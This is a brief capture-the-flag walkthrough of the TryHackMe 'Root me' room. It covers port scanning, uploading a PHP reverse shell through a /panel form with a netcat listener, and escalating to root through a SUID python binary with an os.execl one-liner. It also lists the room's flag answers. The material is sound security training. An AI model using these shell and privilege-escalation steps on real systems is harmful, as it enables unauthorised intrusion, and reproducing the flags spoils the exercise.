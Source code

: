 # Can you Root me? - Tryhackme CTF

``host: 10.10.180.52``

## Reconnaissance

______
NMAP:

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
______

**How many ports are open?**

-> 2

**What version of Apache is runnig?**

-> 2.4.29

**What service is running on port 22?**

-> ssh

**What is the hidden directory?**

-> /panel/


## Getting a shell

Using /panel upload form to upload a reverse shell in php

**test.phtml**

```
$ nc -lnvp 7777
```

After executing the reverse shell by php file, find user.txt

``/var/www/user.txt``

-> THM{y0u_g0t_a_sh3ll}

## Privilege escalation

**Search for files with SUID permission, which file is weird?**

Searching for files with SUID permission

```
$ find . -perm /4000
```

> This will find all files with permission /4000 = SUID

``/usr/bin/python``

Why python can be executed with root privileges?
We can explore that, running a bash by python `os.execl` command, so we have access to a root shell. * Privilege Escalation *

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p");'
```

**root.txt**

```
$ find / -type f -iname root.txt 2> /dev/null
```

/root/root.txt

-> THM{pr1v1l3g3_3sc4l4t10n}
